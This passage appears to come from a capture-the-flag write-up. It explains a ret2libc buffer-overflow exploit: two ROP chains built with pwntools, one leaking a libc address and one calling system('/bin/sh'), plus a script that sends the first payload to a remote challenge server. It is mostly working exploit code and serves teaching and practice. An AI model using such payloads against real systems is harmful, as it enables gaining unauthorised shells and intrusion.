 Then by using this libc base address we can find the addresses of system() and "/bin/sh" to spawn a shell.  
Using pwntools:
```python3
BINSH = next(libc.search(b"/bin/sh")) #Verify with find /bin/sh
SYSTEM = libc.sym["system"]
```

For our exploit, we need to be able to call main() twice: once to leak libc and another time to call system().  
We can just append the address of main() to our first ROP chain to accomplish this.  

First ROP chain:
```python3
base = b"A"*256 + b"B"*8 #Overflow buffer until return address
rop = base + p64(POP_RDI) + p64(LIBC_START_MAIN) +  p64(PUTS) + p64(MAIN)
```

Then our second rop chain will call system:
```python3
rop2 = base + p64(RET) + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM)
```

Combine the above into a script:
```python3
""" The following script was based heavily on the script provided in the following url """
"""           https://tasteofsecurity.com/security/ret2libc-unknown-libc/              """

#!/usr/bin/python3

from pwn import * # Import pwntools

p = remote("chals20.cybercastors.com", 14425)
#p = process("./bof") # start the vuln binary
elf = ELF("./bof") # Extract data from binary
rop = ROP(elf) # Find ROP gadgets
libc = ELF("./libc-2.31.so")

# Find addresses for puts, __libc_start_main and a `pop rdi;ret` gadget
PUTS = elf.plt['puts']
MAIN = elf.symbols['main']
LIBC_START_MAIN = elf.symbols['__libc_start_main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] # Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (rop.find_gadget(['ret']))[0]

log.info("puts@plt: " + hex(PUTS))
log.info("__libc_start_main: " + hex(LIBC_START_MAIN))
log.info("pop rdi gadget: " + hex(POP_RDI))

base = b"A"*256 + b"B"*8 #Overflow buffer until return address
# Create rop chain
rop = base + p64(POP_RDI) + p64(LIBC_START_MAIN) +  p64(PUTS) + p64(MAIN)

#Send our rop-chain payload
p.sendline(rop)

#Parse leaked address
print(p.recvline())
print(p.recvuntil("name: "))
received = p.recvline()
received = received.strip()
print(received)
leak = u64(received.ljust(8, b"\x00"))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))

libc.address = leak - libc.sym["__libc_start_main"]
```
